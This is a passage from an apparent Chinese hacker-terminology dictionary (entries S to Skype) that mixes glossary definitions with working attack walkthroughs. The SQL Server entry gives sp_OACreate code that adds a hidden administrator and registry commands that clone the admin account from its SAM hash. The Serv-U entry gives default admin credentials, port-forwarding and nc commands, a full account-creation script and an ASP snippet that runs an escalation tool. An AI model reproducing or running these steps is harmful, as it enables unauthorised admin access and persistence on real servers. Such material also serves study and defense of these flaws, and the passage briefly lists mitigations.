成功恢复后，就可以使用 SQL 综合利用工具的上传功能，并可执行上传文件。如果对方把 SQL Server 中的 `xplog70.dll` 文件删除或放到其他地方，`xp_cmdShell` 就无法执行我们发出的命令了。这时只能利用其他存储过程来达到目的。SQL Server 中有一系列与 OLE 相关的存储过程，这一系列存储过程同 `xp_cmdShell` 以及读取注册表系列存储过程一样危险，这系列存储过程有 `sp_OACreate`、`sp_OADestroy`、`sp_OAGetErrorInfo`、`sp_OAGetProperty`、`sp_OAMethod`、`sp_OASetProperty` 及 `sp_OAStop`。

```sql
DECLARE @Shell INT
EXEC SP_OACREATE 'wscript.Shell', @Shell OUTPUT
EXEC SP_OAMETHOD @Shell, 'run', null, 'c:\\WINNT\\system32\\cmd.exe /c net user xiaogao /add & net localgroup administrators xiaogao /add'
```

这样就可以在对方系统中添加一个用户名为 `xiaogao`、密码为空、具有管理员权限的用户。如果对方把 `xp_cmdShell`、`SP_OACREATE` 等可执行系统命令的存储过程……以及与它们相对应的动态连接库文件删除了，还可以通过操纵注册表读取和修改注册表的存储过程来克隆对方系统的管理员用户。

在查询分析器里运行 `xp_regread 'HKEY_LOCAL_MACHINE', 'SAM\SAM\Domains\Account\Users\000001F4', 'F'`，可以得到对方系统 Administrator 的加密密码，然后复制，如图 S-8 所示。


接着再执行 `xp_regwrite 'HKEY_LOCAL_MACHINE', 'SAM\SAM\Domains\Account\Users\000001F5', 'F', 'reg_binary', 0x(**************)`，其中 ************** 为图 S-8 导出的密码散列，这样就成功克隆了一个 Guest 用户，同时具有管理员的权限。

## Safari 黑客技术基础

苹果计算机的最新操作系统 Mac OS X 中新的缺省浏览器，用来取代之前的 Internet Explorer for Mac。Safari 使用了 KDE 的 KHTML 作为浏览器的运算核心，目前该浏览器已支持 Windows 平台，界面如图 S-9 所示。


## 黑客术语图文辞典 → Safe mode

## Safe mode 特定名称

即安全模式。在 Windows 系统中有一个安全模式，一般情况下我们进入安全模式的时候并不多，如果计算机死机，无法正常地关机和重新启动时，可以先进入“安全模式”解决问题后，再进行重启电脑，回到原先使用的操作系统。

**进入安全模式的方法：重新启动计算机并按键盘上的 F8 键，直到进入 Windows 启动选项菜单，选择安全模式即可。**

通过“安全模式”进入后的 Windows 系统是与正常启动进入后的 Windows 系统不一样的，它不会加载其他驱动程序或应用程序；同时也只会启动最基本的 Windows 服务，其他多余的服务一概不运行。所以“安全模式”是最基本且安全的启动模式。

与安全模式一起的还有其他一些启动模式，下面就做一些简单的介绍。

- **1. 安全模式**  
  只使用基本文件和驱动程序，如鼠标（USB 串行鼠标除外）、监视器、键盘、硬盘、基本视频、默认系统服务等，但无网络连接。

- **2. 带网络连接的安全模式**  
  在普通安全模式的基础上增加了网络连接。但有些网络程序可能无法正常运行，如 MSN 等，还有很多自启动的应用程序不会自动加载，如防火墙、杀毒软件等。所以在这种模式下一定不要忘记手动加载，否则恶意程序等可能会在你修复电脑的过程中入侵。

- **3. 启动日志**  
  记录启动模式，它会记录 Windows 驱动程序加载时的详细清单，启动结果将会保存在系统磁盘下的 `bootlog.txt` 中。

- **4. 启用 VGA 模式**  
  利用基本 VGA 驱动程序启动。当安装了使 Windows 不能正常启动的新视频卡驱动程序时，这种模式十分有用。事实上，不管以哪种形式的安全模式启动，它总是使用基本的视频驱动程序。因此，在这些模式下，屏幕的分辨率为 640×480，且不能改动，但可重新安装驱动程序。

- **5. 带命令行提示符的安全模式（SAFEBOOT_OPTION=Minimal(AlternateShell)）**  
  只使用基本的文件和驱动程序来启动，在登录之后，屏幕上显示命令提示符，而非 Windows 图形界面。

## Sam Spade 应用程序

Sam Spade 是一个完整的网络工具，包括 PING、域名查找、数据库查找、IP 锁定、记录路由、SMTP 服务等。

## Samba 操作系统及其相关

Samba 是一套让 UNIX 系统能够应用 Microsoft 网络通讯协议的软件，它使执行 UNIX 系统的机器能与执行 Windows 系统的电脑分享驱动器与打印机，属于 GPL 的软件。因此，你可以合法且免费地使用它。

Samba 其实是将 Windows 的 SMB 协议搬到 UNIX 上来应用而已，其核心就是 SMB 协议。而 Samba 也支持了 NT Lan Manager（NTLM）0.12 等 SMB 的延伸协议，这使得 Samba 具有管理 NT 网络的能力。

## Samba服务器 操作系统及其相关

支持 Samba 的文件服务器。

## SAMETIME 应用程序

SAMETIME（全称为 IBM Lotus Sametime）是 IBM 全球首次推出的统一商务协作平台（Unified Communication & Collaboration Platform），是集即时消息与 Web 会议、语音通讯、移动设备服务为一体的统一平台，为企业提供灵活、安全的实时通讯服务。

SAMETIME 一般常用的是 Lotus Sametime 7.5，它可以运行在 Microsoft Windows 2000/XP、Linux 以及 Apple 的 Mac OS X 版本 10.4 上，还用作 IBM Workplace Collaboration Services 未来发行版的即时消息客户机。它提供了一系列新的开箱即用功能，最终带来了非常丰富的终端用户体验。其中一些特性包括点击通话、点击拨号、位置提醒、富文本、时间戳、图释、拼写检查、预先输入搜索、已保存聊天的新 UI，以及可视业务卡和企业品牌区域。

## SAM 操作系统及其相关

SAM（Security Accounts Manager，安全账户管理器）负责 SAM 数据库的控制和维护。简单地说，它就是 Windows 储存用户信息与密码散列的地方。SAM 数据库中包含所有组、账户的信息，包括密码 HASH、账户的 SID 等。

在所有的 NT 平台和基于 Windows 2000 及更高版本 Windows 的独立计算机上，用户的账户和密码信息都是由 SAM 负责保存和管理的。其中密码是以一种不可逆的加密方式存放的，其具体内容保存在 `%systemRoot%\system32\config\sam` 文件里。

在正常设置下，SAM 文件仅对 system 用户可读写，在系统启动时是只读的，不可以复制。SAM 文件中的信息在注册表中也有保存，其位置是 `HKEY_LOCAL_MACHINE\SAM\SAM` 及 `HKEY_LOCAL_MACHINE\SECURITY\SAM`。默认情况下也只有 system 用户可以修改，克隆用户时就要修改这里。

## 【黑客术语图文辞典】→ SA空口令

当用户登录系统的时候，系统会自动和 Config 中的 SAM 自动校对，如发现此次密码和用户名全与 SAM 文件中的加密数据符合时，就会顺利登录；如果错误则无法登录。SAM 文件可以认为类似于 UNIX 系统中的 passwd 文件，不过没有那么直观明了，passwd 使用的是纯文本格式保存信息。

SAM 文件在 Windows 的安全性中占有重要地位，目前有很多工具可以从 SAM 文件中取出散列并加以破解，最著名的莫过于 **pwdump** 与 **L0phtcrack**（简称 LC），具体请看相关词条。

## SA空口令 数据库

即 **SQL Server** 的 **SA** 用户没有设置密码。

## SchedExec 黑客工具

SchedExec 是一个在获得管理员权限账号和密码的情况下，利用主机的 Task Scheduler 服务在主机上启动程序的小程序，如图 S-10 所示。它的功能和流光种植者一样，只是单独写出来了。如果想在远程主机上启动程序，而又不想用流光，那么不妨试试这个小程序。


## Scheduler服务 操作系统及其相关

全称为 Task Scheduler，即计划任务服务，它能使程序在预定的时间自动运行，如定期进行磁盘碎片整理。若要利用 Windows 默认的计划任务来执行一定的任务，需要启用这项服务才能执行任务，否则会提示服务没有运行。

## Screnc.exe 操作系统及其相关

Screnc.exe 是微软提供的一款脚本编码器，一种简单的命令行工具，它使脚本设计者可以对最终的脚本进行编码。用它可以对一些 ASP 文件或者用 VBScript 及 JavaScript 写成的脚本文件进行加密，这也可以作为简单免杀处理。但有许多软件能够对其进行解密，例如 Webfree_Web。

`Screnc 的语法：SCRENC [/s] [/f] [/x] [/l defLanguage] [/e defExtension] inputfile outputfile`

- 相关参数说明：
  - `/s` —— 可选开关，它指定脚本编码器的工作状态是静态的，即产生无屏幕输出。如省略，缺省为提供冗余输出。
  - `/f` —— 可选，指定输入文件将被输出文件覆盖。注意，该选项会破坏你原来的输入源代码。如省略，输出文件不会被覆盖。
  - `/x` —— 可选，指定不把 `@language` 伪指令添加到 `.ASP` 文件顶部。如省略，`@language` 指令将添加到所有的 `.ASP` 文件中。
  - `/l defLanguage` —— 可选，指定在编码过程中使用的缺省脚本编写语言（JScript 或 VBScript）。被编码文件中的脚本块如不包含语言属性，即被认为是由指定语言写成。如省略，JScript 是 HTML 页和脚本小程序的缺省语言，VBScript 是动态网页的缺省语言。对于普通文本文件，由文件扩展名（`.js` 或 `.vbs`）决定缺省脚本编写语言。
  - `/e defExtension` —— 可选，把输入文件与一个特定的文件类型相关联。当输入文件的扩展名不能明显显示出文件的类型时，即当输入文件扩展名不是可识别的扩展名，但文件内容又可以归为可识别的类型时，使用该开关。该选项无缺省值，如果遇到一个带不可识别扩展名的文件，且该选项未被指定，则脚本编码器不能处理该不可识别的文件。可识别的文件扩展名有 asa、asp、cdx、htm、html、js、sct 和 vbs。
  - `inputfile` —— 必需！要被编码的文件名称，包括相对于当前目录的任何需要路径信息。
  - `outputfile` —— 必需！要生成的输出文件名称，包括相对于当前目录的任何需要路径信息。

## Script 脚本

即脚本，常见的编写语言有 VBScript、JavaScript 等，详情请见本书导读。

## SCSI 硬件

SCSI 即小型计算机系统接口（Small Computer System Interface），一种用于计算机和智能设备之间（硬盘、软驱、光驱、打印机、扫描仪等）系统级接口的独立处理器标准。SCSI 是一种智能的通用接口标准，它是各种计算机与外部设备之间的接口标准，这种接口具有以下特性：

- 1. SCSI 接口是一个通用接口，在 SCSI 母线上可以连接主机适配器和八个 SCSI 外设控制器，外设可以包括磁盘、磁带、CD-ROM、可擦写光盘驱动器、打印机、扫描仪和通信设备等。
- 2. SCSI 是个多任务接口，设有母线仲裁功能。挂在一个 SCSI 母线上的多个外设可以同时工作，其上的设备平等占有总线。
- 3. SCSI 接口可以同步或异步传输数据，同步传输速率可以达到 10MB/s，异步传输速率可以达到 1.5MB/s。
- 4. SCSI 接口接到外置设备时，它的连接电缆可以长达 6m。

最初 SCSI 标准的最大同步传输速率为 5MB/s，后来的 SCSI II 规定了两种提高速度的选择。一种为提高数据传输的频率，即 Fast SCSI，由于频率提高一倍，达到了 10MB/s；另一种提高速度的选择是传输频率提高一倍的同时也增大数据通路的宽度，由 8 位增至 16 位，即 Wide SCSI，其最大同步传输速度为 20MB/s。这种接口是一种便于系统集成、降低成本和提高效率的接口标准，越来越多的设备将使用 SCSI 接口标准，因此，带 SCSI 接口的硬盘和 SCSI 光盘驱动器也越来越多。

## SEAL 安全技术

SEAL 是一种全称为 Software Encryption Algorithm（软件加密算法）的加密策略，这种加密策略经常在对文件进行透明加密时使用，它是一个高达 160 位的加密算法。

## SecureCRT 应用程序

SecureCRT 是一款可靠好用的 Windows 终端仿真器，如图 S-11，可以通过它安全地登录各种服务器，包括：SSH2、SSH3、Telnet、RLOGIN 等。它是结合登录安全和传统网络服务程序中数据转换功能的软件。有流行 CRT Telnet 客户端的所有特点，包括：自动注册、对不同主机保持不同的特性、打印功能、颜色设置、可变屏幕尺寸、用户定义的键位图等。


图 S-11

## SELinux 操作系统及其相关

SELinux 全名为 Security-Enhanced Linux，是一种基于域-类型模型（domain-type）的强制访问控制（MAC）安全系统，是美国国家安全局（NSA）对于强制访问控制的实现。它由 NSA 编写并设计成内核模块包含到内核中，相应的某些安全相关应用也被打了 SELinux 的补丁，最后还有一个相应的安全策略。它旨在提高 Linux 系统的安全性，提供强健的安全保证，可防御未知攻击，据称相当于 B1 级的军事安全性能，比 Windows 所谓的 C2 高得多。

应用 SELinux 后，可以减轻恶意攻击或恶意软件带来的灾难，并提供对机密性和完整性有很高要求的信息的安全保障，是 Linux 中最杰出的新安全子系统。

SELinux 默认安装在 Fedora 和 Red Hat Enterprise Linux 上，也可以作为其他发行版上的安装包。

大部分使用 SELinux 的人使用的都是 SELinux 就绪的发行版，例如 Fedora、Red Hat Enterprise Linux（RHEL）、Debian 或 Gentoo。它们都是在内核中启用 SELinux 的，并且提供一个可定制的安全策略，还提供很多用户层的库和工具，它们都可以使用 SELinux 的功能。

## Serv-U 黑客技术基础

Serv-U 是一个运行于 Windows 下著名的 FTP 服务器程序，如图 S-12 所示。安装了它以后就等于拥有了 IIS 里的强大 FTP 管理系统，可以方便快捷地创建并管理自己的 FTP 服务器。在所有的 FTP 服务器端软件中，Serv-U 除了拥有其他同类软件所具备的几乎全部功能外，还支持断点续传、带宽限制、远程管理、远程打印、虚拟主机等；再加上良好的安全机制、友好的管理界面及稳定的性能，使它赢得了很高的赞誉，并被广泛使用。但由于其默认管理密码与用户管理密码控制不严，常常成为许多入侵者攻击的重点，对提权有着重要的意义（详情见 **Serv-U 本地权限提升漏洞**）。


### 下面简要介绍一下 Serv-U 的配置与使用

Serv-U 由两大部分组成：引擎和用户界面。Serv-U 引擎（ServUDaemon.exe）其实是一个常驻后台的程序，也是 Serv-U 整个软件的心脏部分，它负责处理来自各种 FTP 客户端软件的 FTP 命令，也是负责执行各种文件传送的软件。

在运行 Serv-U 引擎，也就是 ServUDaemon.exe 文件后，是看不到任何用户界面的，它只是在后台运行，通常用户无法影响它，但在 ServUAdmin.exe 中可对它进行操作。Serv-U 引擎可以在任何 Windows 平台下作为一个本地系统服务来运行，系统服务随操作系统的启动而开始运行，而后用户就可以运行用户界面程序了。如图 S-13 所示，为 ServUAdmin.exe 的主界面。


ServUAdmin.exe 负责与 Serv-U 引擎之间的交互，它可以让用户配置 Serv-U，包括创建域、定义用户，并告诉服务器是否可以访问。启动 Serv-U 管理员最简单的办法就是直接点击系统栏的“U”形图标，当然，也可以从开始菜单中运行它。

Serv-U 中有一些重要的概念：每个正在运行的 Serv-U 引擎可以被用来运行多个“虚拟”的 FTP 服务器，在管理员程序中，每个“虚拟”的 FTP 服务器都称为“域”。因此，对于创建多个 FTP 服务器的问题，可以通过创建不同的域来解决。每个域都有各自的“用户”“组”和设置，一般说来，“设置向导”会在用户第一次运行应用程序时设置好一个最初的域和用户账号。

安装完成后程序会自动运行，第一次运行程序时，它会弹出设置向导窗口，如图 S-14 所示，它将会引导用户完成初始设置。

单击“下一步”，接下来分别要输入本机的 IP 地址或域名，没有域名的话可以随便写一个，如图 S-15 所示。


然后会询问用户是否允许匿名访问。匿名访问是以 Anonymous 为用户名登录的，无需密码。如果想给所有人共享资源就可以选“是”，如果只是想让特定的人访问就选“否”，如图 S-16 所示。

接着是指定 FTP 的访问目录，如图 S-17 所示。


下一步后，会询问用户是否要锁定该目录。锁定后，匿名登录的用户将只能认为你所指定的目录（F:\temp\xyz）是根目录，也就是说他只能访问这个目录下的文件和文件夹，目录之外的区域不能访问。对于匿名用户一般填“是”。

接着就是询问是否创建命名的账号，也就是说可以指定用户以特定的账号访问这个 FTP。创建的话选择“是”，并输入账号名字，选择密码与登录目录。接下来询问这个用户所拥有的权限，如图 S-18 所示。

根据自己的实际情况分配完权限后就 OK 了。然后进入程序控制主界面，就可以看到已经多出来一个域了，并且有相应的用户。


19所示。接着就可以用相应的用户进行登录与操作了。


图S-19

## Serv-U 本地权限提升漏洞｜渗透技术

Serv-U 在 3.0 之后的版本都存在本地权限提升漏洞（6.4 版本稍微不同），这个漏洞产生于 Serv-U 本身的运行机制。Serv-U 是通过使用其本地默认管理端口，以默认管理员登录新建域和用户来执行命令的。Serv-U 在 3.0-6.0 之间的版本默认本地管理端口是：43958，默认管理员是：Localadministrator，默认密码是：#!@Sak#.lk;O@P，这是集成在 Serv-U 内部的。

也就是说，在 Serv-U 管理员中的操作其实都是通过登录 Serv-U 的默认端口再发送指令进行执行的。比如说当管理员新建一个用户时，Serv-U 管理员就会自动向 43958 端口发送新建用户的指令。


图S-20

通过图S-20所示可以看到 Serv-U 的管理配置。所以提权的思路就是用默认的用户名与密码向目标主机的 43958 端口发送指令，不过 Serv-U 只接受本地 IP 发送过来的请求，所以如果想利用它执行命令还必须在目标主机上有一个 Shell（一般都是 WebShell）。要明确一点的是，这并不是什么溢出漏洞，而是利用的 Serv-U 管理的一个机制缺陷而已。下面给出提权实例：

### 一、不使用专门工具的利用方法

- 1、利用得到的 WebShell 上传转向程序 fpipe，然后执行命令。

```bash
fpipe -v -l 12345 -r 43958 127.0.0.1
```

- 2、本机上，用“Serv-U Administrator”新建 Server，依次填入 IP：目标 IP，端口：12345、User：Localadministrator、Pass："#!@Sak#.lk;O@P"（具体配置方法请见 Serv-U），接着就可以远程连接并管理这台服务器的 Serv-U 了。

新建一个账号，权限为系统管理员（system administrator），并在“目录访问（Dir access）”选项中给予“执行”权限（execute）。

- 3、进行 FTP 连接，然后执行 `quote site exec net user cody /add` 添加一个用户名为 cody、密码为空的用户，再加到管理员组，命令：`quote site exec net localgroup administrators iisuser /add`，现在就可以连接终端服务并登录了。

当然也可以使用 NC 直接进行数据发送。上传 NC.exe 和 su.txt 到服务器，然后输入 `C:\winnt\system32\inetsrv\data\nc.exe 127.0.0.1 -p 43958 < C:\winnt\system32\inetsrv\data\su.txt`。

SU.txt 内容如下：

```text
USER Localadministrator
PASS #!@sak#.lk;O@p
SITE MAINTENANCE
-SETDOMAIN
-Domain=MyFTP|0.0.0.0|22|-1|10
-DynDNSEnable=0
-DynIPName=
-SETUSERSETUP
-IP=0.0.0.0
-PortNo=21
-User=test
-Password=123456
-HomeDir=c:\
-Maintenance=system
-Ratios=None
Access=c:\|RWAMELCDP
-GETUSERSETUP
```

这样就建立了一个用户名为 test、密码为 123456 的系统管理员用户。

### 二、使用专门的利用工具

有许多工具可以自动登录 Serv-U 并发送命令，如 su.exe，许多 WebShell 也自带 Serv-U 提权，下面给出 su.exe 的利用方法。

先将 su.exe 上传至服务器的可执行目录，再用 Web 木马运行即可，格式为：`su.exe port "command"`，如 `su.exe 43958 "net user cody /add"`。也可以上传一个 ASP 脚本，并把 su.exe 放在同一目录下，访问脚本即可。

### ASP脚本代码如下：

```asp
<%
Set oScript = Server.CreateObject("WSCRIPT.Shell")
oScript.Run (Server.MapPath("su.exe") &" 43958 ""net user cody /add"" ")
%>
```

以上的方法是对付 Serv-U（6.4 以下的版本）默认密码没有修改情况下最常使用的方法，如果 Serv-U 的密码被修改就不能直接这样利用了，下面给出一个实例。

把 su.exe 复制到 `C:\winnt\system32\inetsrv\data\` 目录下后运行以下命令：`C:\winnt\system32\inetsrv\data\su.exe "net user cody /add"`，返回结果如下。

```text
<220 Serv-U FTP Server v5.0 for WinSock ready...
>USER Localadministrator
<331 User name okay, need password.
*****************************************************
>PASS #!@sak#.!k,@Q@P
<530 Not logged in.
```

很明显，说明默认密码无法登录。因为 Serv-U 6.0 以下版本的默认管理密码都存在于 `ServUAdmin.exe` 这个文件内，所以可以将其下载下来，再用 Xhex 打开查看密码。

打开后使用快捷键 `Ctrl+F`，输入 `Localadministrator`，点搜索，密码和用户名“Localadministrator”是相邻的，在图S-21所示中可以看到密码是“85457845152145”。


找此种密码有一个简单的方法，可以先找一个同一版本的正常 Serv-U 的 `ServUAdmin.exe`，搜索“Localadministrator”，找到它的偏移地址记下，然后再打开目标 `ServUAdmin.exe`，快捷键 `Ctrl+G`，跳转到这个地址就可以找到用户名和密码了。如果管理员修改了端口，就可以在 WebShell 里用 `Netstat -an` 命令查找 `127.0.0.1:XXXXX` 端口。

对于 6.0 以上的版本来说，默认管理密码不再保存在 `ServUAdmin.exe` 里，而是保存在配置文件 `ServUDaemon.ini` 里（不过前提是管理员更改了默认的管理密码），并用 MD5 进行了加密。同时 6.4 不能直接执行系统命令（否则 Serv-U 会崩溃），提权的难度就大大增加了。

简单防御此漏洞的方法在于两点：

- 一是更改默认的管理用户名与密码；
- 二是将 Serv-U 以低权限启动并设置好各目录的权限。

## Serv-U4数字密码破解工具

黑客工具

一种专门破解 Serv-U 储存在 ServUDaemon.ini 中且经过加密后的密码的工具，如图S-22所示，但其只支持纯数字密码。


## Server服务

操作系统及其相关

Windows Server 版架设服务器所支持的服务，通过网络为其他计算机提供文件、打印及命名管道的共享。如果停止这个服务，将无法使用这些功能，所有依存于它的服务将无法启动。关闭了这个服务也就无法提供 NETBIOS 服务了。

## Service Pack 4

操作系统及其相关

即 SP4。Windows 2000 Service Pack 4 是 Windows 2000 升级维护包，主要提供了 SP2 以后微软发布的所有系统升级与补丁，并修正了五百多个 BUG。适用于 Windows 2000 专业版、Windows 2000 服务器版、Windows 2000 高级服务器版以及带有服务器应用工具包的 Windows 2000。

## Serv-U提权工具

黑客工具

即利用 Serv-U 本地权限提升漏洞的工具，种类很多，有可执行文件 su.exe、ASP 脚本文件 [GoldSUN]、ASP 版文件 [lake2]、ASPX 版文件 [lake2]、PHP 版文件 [wofeiwo] 等。

## Session

黑客技术基础

Session 即会话，是指一个终端用户与交互系统进行通信的时间间隔，通常指从注册进入系统到注销退出系统之间所经过的时间。

这种技术最实用的一点体现在可以让用户在登录某个页面后不用反复输入密码，因为用户在登录页面后，Session 对象的信息保存在服务器中，但 ID 保存在客户机的 Cookie 中。当用户关闭了某个 Web 服务器上的网页时，则此服务器与客户机的 Session 对象以及其变量会自动消失。

说详细一点是：当用户访问一个网站时往往需要浏览许多网页，对于一个通过脚本构筑的网站来说，用户在访问的过程中需要执行许多的脚本。然而由于 HTTP 协议自身的特点，用户每执行一个脚本都需要和 Web 服务器重新建立连接，而脚本由于无状态记忆的特点，此次连接无法得到上次连接的状态。这样，用户在一个脚本中对一个变量进行了赋值操作，而在另外一个 PHP 脚本中却无法得到这个变量的值。

例如，用户在负责登录的 PHP 脚本中设置了一种变量 User=cody，而这个 User 变量却无法在另一个脚本中直接调用 User 这个变量。也就是说，在脚本中无法设置全局变量。每个脚本中所定义的变量都是只在这个脚本内有效的局部变量，这样使各个脚本无法直接传递信息，使之联系不够紧密。

而 Session 就可以弥补这个不足，只要提供在脚本中定义全局变量的方法，使得这个全局变量在同一个 Session 中对于所有的脚本都有效。

Session 就是用于保持状态的基本方法，你也可以把它看作编程中常见的全局变量。Session 允许通过将对象存储在 Web 服务器的内存中，在整个用户会话过程中保持任何对象。例如设置了一个名称为 LOGIN 的 Session，只要登录后用户就被赋予了这个 Session，这样每个脚本只要查看这个用户是否具有这个 Session，就可以判断用户是否登录，同时还可以判断有几个用户在登录，也可以判断用户在页面的停留时间。

### Session ID（黑客技术基础）

即 Session 的标识符，用来分辨不同的 Session。

### Session 劫持（攻击方法与行为）

Session 劫持（即会话劫持）是一种常见的攻击技术，结合了嗅探及欺骗技术，可对网络中的连接进行监听并修改其传输数据。

在这种攻击方式中，入侵者会寻找一个在两台主机之间的连接，通常是服务器和客户端之间。然后，穿过未经保护的路由器和防火墙，检测到交换信息的主机所用的相关顺序号。入侵者作为第三方得到授权用户的地址信息后，就会“代替”该用户地址来劫持和合法用户的连接。最终，入侵者将获得与授权用户同样的访问权。这种攻击的方式又称 MIM，即 **Man in the Middle**（中间人攻击）。

### Session 欺骗（攻击方法与行为）

即伪造 Session 欺骗服务器进行登录。一般来说，用户登录管理页面后服务器会自动分配一个 Session 值（SessionID）给用户（详情见 Session），然后用户进入任何一个管理页面都要首先验证 Session 值，如果与服务器上的匹配就让其通过，不是的话就引导用户回到登录页面或者出现警告。但同样可以通过 **WebShell** 来修改并创建一个管理员 Session，这样的话尽管我们没有管理员密码，但是一样在后台通行无阻。这种方法称为 Session 欺骗。

### SFTP（应用程序）

SFTP 是一个功能强大的 FTP 搜索引擎，可以搜索 Internet 上的 FTP 主机及……

## 黑客术语图文辞典 → SGID/SUID

在互联网上有很多的 FTP 服务，其中有很多 FTP 服务器是可以匿名登录的，那么在能匿名登录的 FTP 服务器中，有些是管理员特意公开的，而有些是由于管理员疏忽而忘记关闭匿名登录服务了，SFTP 可以把它们找出来。

### SGID/SUID 操作系统及其相关

SGID/SUID 都是 Linux 权限模型的两个专门的位。Linux 文件的权限可以用三个八进制数字表示，其实文件的权限应该用四个八进制来表示，不过用 `ls -l` 命令时只显示三个，那个没有显示的八进制数字其实是第一个，它用来设定一些特殊权限。这个八进制数字的三个位是：SUID、SGID、sticky-bit。

- **SUID**——当设置了 SUID 位的文件被执行时，该文件将以所有者的身份运行，也就是说无论谁来执行这个文件，他都有文件所有者的特权。如果所有者是 root 的话，那么执行人就有超级用户的特权了。因此不要轻易设置该位。
- **SGID**——与上面的内容类似。文件运行时，运行者将具有所属组的特权。

例如，一般用户不能直接修改 passwd 文件，因为 “write” 标志已经对除 “root 用户” 以外的每个用户关闭：

```bash
$ ls -l /etc/passwd
-rw-r--r-- 1 root wheel 1355 Nov 1 21:16 /etc/passwd
```

但是，一般用户确实需要在他们需要改变其密码的任何时候，能够修改 `/etc/passwd`（至少间接地）。当对一个可执行程序设置 `suid` 位时，它将代表可执行文件的所有者运行，而不是代表启动程序的人运行。如果看一看 `passwd` 可执行文件，我们可以看到它属于 root 用户：

```bash
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root wheel 17588 Sep 24 00:53 /usr/bin/passwd
```

这里有一个 `s` 替代了用户权限三元组中的一个 `x`。这表明，对于这个特殊程序，设置了 suid 和可执行位。由于这个原因，当 passwd 运行时，它将代表 root 用户执行（具有完全超级用户访问权），而不是代表运行它的用户运行。又因为 passwd 以 root 用户访问权运行，所以能够修改 `/etc/passwd` 文件，而没有什么问题。

SUID 的程序在运行时，将有效用户 ID 改变为该程序的所有者 ID，使得进程在很大程度上拥有了该程序的所有者的特权。如果该程序的所有者是 root，那么这个进程将拥有超级用户的特权。当进程结束时，又恢复为原来的状态。在许多环境中，SGID 和 SUID 很管用，但是不恰当地使用这些位可能使系统的安全遭到破坏。最好尽可能地少用 “SUID” 程序。passwd 命令是为数不多的必须使用 “SUID” 的命令之一。

## Shed 黑客工具

Shed 是基于 **NetBIOS** 的攻击 Windows 的软件，如图S-23所示，它可以自动扫描一个网段开启 NETBIOS 的主机与其共享的盘符。


## Shell 黑客技术基础

Shell 是一种交互式的模型，是给操作系统的用户与操作系统内核进行交互的平台。对于 Windows 来说，最典型的莫过于 **CMD** 了，而 Linux 下的 Shell 有很多种，**Bash Shell** 就是其中使用很广泛的一种。举个例子来说：当电脑传输出音乐的时候，电脑需要具备以下条件：

- 1. 声卡；
- 2. 操作系统的内核可以支持声卡，当然还需要相应的声卡驱动；
- 3. 使用者输入发出声音的指令。

这就是基本的一个输出声音所需要的步骤。也就是说使用者必须要输入一个指令之后，硬件才会透过你下达的指令来工作，那么硬件如何知道使用者下达的指令呢？那就是系统内核（Kernel）的控制工作了，而对系统内核的指令必须要通过 Shell 将我们输入的指令与 Kernel 沟通，好让 Kernel 可以控制硬件来正确无误地工作。如图S-24所示，能很好地说明 Shell 的作用。


正如上图所示，为操作系统使用者工作的是硬件，而控制硬件的是操作系统内核。由于内核听不懂人类的语言，而人类也没有办法直接记得内核的语言，所以两者的沟通就得借助 Shell 来沟通了。

以字面上的意思来说，Kernel 是核心的意思，而 Shell 是壳的意思。也就是说，Shell 是把 Kernel 包住的东西，而核心是操作系统最底层的东西。

## ShellCode 渗透技术

Shellcode 简单地说就是一段执行指定命令的代码，它可以用任意语言编写，只不过最后必须转换为机器码。Shellcode 是溢出程序的核心，它与缓冲区溢出漏洞是紧密联系在一起的。

事实上所有的溢出 Exploit 都是由两部分组成，一个是 Shellcode 发送部分，另一个就是 Shellcode。而漏洞发现者在漏洞发现之初并不会给出完整 Shellcode，因此掌握 Shellcode 编写技术就显得尤为重要。

Shellcode 一般作为数据发送给服务端造成溢出，不同数据也就使得 Shellcode 也不一定相同。但 Shellcode 在编写过程中，有些问题是一致的：Shellcode 一般采用的是 C 语言，速度较快，但是 ASM 更便于控制。

## shutdown 特定名称

即关机命令，在 CMD 下输入 **shutdown** 即可查看用法。

```text
shutdown [-i | -l | -s | -r | -a] [-f] [-m \\computername] [-t xx] [-c "comment"] [-d [u][p]:xx:yy]
```

| 参数 | 说明 |
|---|---|
| 无参数 | 显示此消息（与 `?` 相同） |
| -i | 显示 GUI 界面，必须是第一个选项 |
| -l | 注销（不能与选项 -m 一起使用） |
| -s | 关闭此计算机 |
| -r | 关闭并重启此计算机 |
| -a | 放弃系统关机 |
| -m \\computername | 远程计算机关机 / 重启 / 放弃 |
| -t xx | 设置关闭的超时为 xx 秒 |
| -c "comment" | 关闭注释（最大 127 个字符） |
| -f | 强制运行的应用程序关闭而没有警告 |
| -d [u][p]:xx:yy | 关闭原因代码；u 是用户代码，p 是计划的关闭代码，xx 是主要原因代码（小于 256 的正整数），yy 是次要原因代码（小于 65536 的正整数） |

## Simplog 脚本

Simplog 是一款基于 PHP 的 Web 应用程序。因为 Simplog 的一些版本中 “Copy_Cacti_User.PHP” 文件对用户提交的 “pid” 参数缺少过滤，在提交恶意……脚本代码作为参数数据后，可导致获得敏感信息。

## Singularity 操作系统及其相关

Singularity 是一个强有力而且简单易用的文件处理软件，可以调用已安装的软件管理所关联的文件类型，具有良好的 DOS 命令兼容性、易用实用的文件功能、丰富的文件管理命令、简单的软件布局调整等特点。

## SIM 特定名称

SIM 是（Subscriber Identity Module，客户识别模块）的缩写，也称为智能卡、用户身份识别卡，GSM 数字移动电话必须装上此卡方能使用。它在一片电脑芯片上存储了数字移动电话客户的信息、加密的密钥等内容，可供 GSM 网络对客户身份进行鉴别，并对客户通话时的语音信息进行加密。SIM 卡的使用，完全防止了并机和通话被窃听，并且 SIM 卡的制作是严格按照 GSM 国际标准和规范来完成的，从而可靠地保障了客户的正常通信。

SIM 卡在 GSM 系统中的应用，使卡和手机分离，SIM 卡唯一标识一个客户。一张 SIM 卡可以插入任何一部 GSM 手机中使用，而使用手机所产生的通信费则自动记录在该 SIM 卡所唯一标识的客户账上。SIM 卡容量有 8K、16K、32K、64K 几种，其中 16K 以上的大容量 SIM 卡统称为多功能 STK 卡。

SIM 卡有大小之分，大卡的尺寸为 54mm×85mm（信用卡标准尺寸），小卡的尺寸为 25mm×15mm（比普通邮票还小）。其实小卡就是大卡上带有芯片的那一块，“大卡”上面真正起作用的就是那张“小卡”，“小卡”可以从大卡中取下。

目前国内流行样式是“小卡”，小卡也可以换成“大卡”（有个卡托即可）。“大卡”和“小卡”分别适用于不同类型的 GSM 移动电话，早期的机型如摩托罗拉 GC87C、308C 等手机用的是“大卡”。

## Skype 特定名称

